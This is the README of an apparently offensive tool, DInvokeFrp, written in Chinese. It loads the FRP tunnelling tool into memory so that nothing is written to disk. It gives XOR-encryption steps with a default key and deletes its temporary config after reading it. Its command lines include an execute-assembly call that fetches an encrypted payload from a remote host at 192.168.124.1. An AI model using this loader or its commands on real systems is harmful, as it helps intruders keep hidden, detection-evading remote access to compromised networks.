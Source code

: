 # DInvokeFrp
内存加载FRP

1.简介
通过加载器内存加载frp，实现frp不落地上线。
运行过程中，会落地加密配置文件，读取完配置文件后，会自动删除。
落地配置 C:\\Windows\\Temp\\uxfFXSTIFFDebugLogFile.log


2.使用

0x1 配置

00x1 使用XORTool进行frp加密

选择需要加密的frp文件，默认文件加密密钥为duxaz

<img width="415" alt="image" src="https://github.com/T0ngF0ngnie/DInvokeFrp/assets/68188237/2e3be9ed-5491-44dc-8429-3075b1752770">


00x2 使用XORTool 进行配置加密

修改frp配置参数，获取加密配置

<img width="415" alt="image" src="https://github.com/T0ngF0ngnie/DInvokeFrp/assets/68188237/38f6570d-719e-46e3-9583-42d6b3329512">


00x3 使用方式
参数配置，不要修改顺序
本地加载

使用默认文件加密key
DInvokeSU.exe --file C:\users\public\main.bin 加密配置 


修改加密key上线
DInvokeSU.exe --file C:\users\public\main.bin 加密配置 --key 加密密钥
<img width="415" alt="image" src="https://github.com/T0ngF0ngnie/DInvokeFrp/assets/68188237/2ffd45f2-7263-4749-8cdb-fbab66578341">



远程加载
使用默认文件加密key
DInvokeSU.exe --url C:\users\public\main.bin 加密配置 

修改加密key上线
DInvokeSU.exe --file C:\users\public\main.bin 加密配置 --key 加密密钥
<img width="415" alt="image" src="https://github.com/T0ngF0ngnie/DInvokeFrp/assets/68188237/5eb07fe0-0416-46b4-aeea-177d13a0a831">


execute-assembly纯内存加载
远程加载加密frp
execute-assembly DInvokeSU.exe --url http://192.168.124.1:8080/main.bin 加密配置 --key duxaz

<img width="416" alt="image" src="https://github.com/T0ngF0ngnie/DInvokeFrp/assets/68188237/3e2338f2-fc43-4f75-9dc4-01fdbae8507d">


落地加密frp
execute-assembly DInvokeSU.exe --file C:\Users\Public\main.bin 加密配置 --key duxaz
